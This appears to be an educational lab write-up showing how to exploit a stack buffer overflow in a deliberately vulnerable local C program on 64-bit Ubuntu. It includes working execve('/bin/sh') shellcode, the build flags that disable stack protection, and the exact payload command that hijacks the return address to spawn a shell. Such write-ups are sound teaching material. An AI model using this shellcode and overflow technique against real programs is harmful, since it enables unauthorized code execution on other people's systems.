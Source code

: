 # Problem I

This writeup describes how to open a shell from a silly victim program containing a `getc`.

I mainly followed the [ROC tutorial](https://crypto.stanford.edu/~blynn/rop/) with subtle tweaks, the result runs on 64-bit x86 Ubuntu 20.

#### Build the shellcode ####

A simple inline assembly program gets us the shell-opening shellcode:)

Content of [`shellcode.c`](shellcode.c)


```c
// Shell openning shellcode
#include <stdio.h>

int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
```

Build shellcode.
```shell
gcc schellcode.c
```

Now running `a.out` should start a new shell. 

On my machine `a.out` takes about 16KB, but we're only interested in the part that starts the shell.

Inspecting the object dump we can find where the shell starting part of the program really lives.

```shell
objdump -d a.out | sed -n '/needle0/,/needle1/p'
```

On my machine this returned.
```
0000000000001131 <needle0>:
    1131:	eb 0e                	jmp    1141 <there>

0000000000001133 <here>:
    1133:	5f                   	pop    %rdi
    1134:	48 31 c0             	xor    %rax,%rax
    1137:	b0 3b                	mov    $0x3b,%al
    1139:	48 31 f6             	xor    %rsi,%rsi
    113c:	48 31 d2             	xor    %rdx,%rdx
    113f:	0f 05                	syscall 

0000000000001141 <there>:
    1141:	e8 ed ff ff ff       	callq  1133 <here>
    1146:	2f                   	(bad)  
    1147:	62                   	(bad)  
    1148:	69                   	.byte 0x69
    1149:	6e                   	outsb  %ds:(%rsi),(%dx)
    114a:	2f                   	(bad)  
    114b:	73 68                	jae    11b5 <__libc_csu_init+0x45>
	...

000000000000114e <needle1>:
```

For some reason there is no global code offset in the above (unlike the ROC example), ie 0x1131 is the true offset in bytes of <needle0> from the start of the `a.out` file. Notice how the entire shellcode fits in 29 bytes (0x114e - 0x1131).

The following command gets 32 bytes of the `a.out` file offsetted by 0x1131 and creates the `shellcode` file containing these 32 bytes -- the shellcode itself!

```shell
xxd -s0x1131 -l32 -p a.out shellcode
```

Now build the silly victim code.

```shell
gcc -fno-stack-protector -z execstack victim.c -o victim
```

The [victim.c](victim.c) is tweaked to print out address of the buffer. Run it once to get the address. I get the following output:

```
0x7fffffffe3d0
What's your name?
```

Copy the printed buffer address and convert to little endian, save to a variable.

```shell
a=`printf %016x 0x7fffffffe3d0 | tac -rs..`
```

We are ready to hack! The following magic all-in-one shell command pipes the required input to the victim `getc` prompt.

```shell
( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) | setarch `arch` -R ./victim
```

- `( cat shellcode ; printf %080d 0 ; echo $a )` -- appends the content of `shellcode` file, eighty zeros, and address of buffer (from the variable `a`) together.
- `xxd -r -p` -- converts hexdump string to binary.
Here is what our shell dialog looks like.
- setarch `arch` -R -- disables randomization of address space.

woop woop is the magic key to open the secret shell (just kidding any input will do)!
```
0x7fffffffe3d0
What's your name?
woop woop
Hello, ?_H1??;H1?H1??????/bin/sh!
ls    
README.md  a.out  problem1  problem1-ubuntu64.c  problem2.c  shellcode	shellcode.c  victim
```




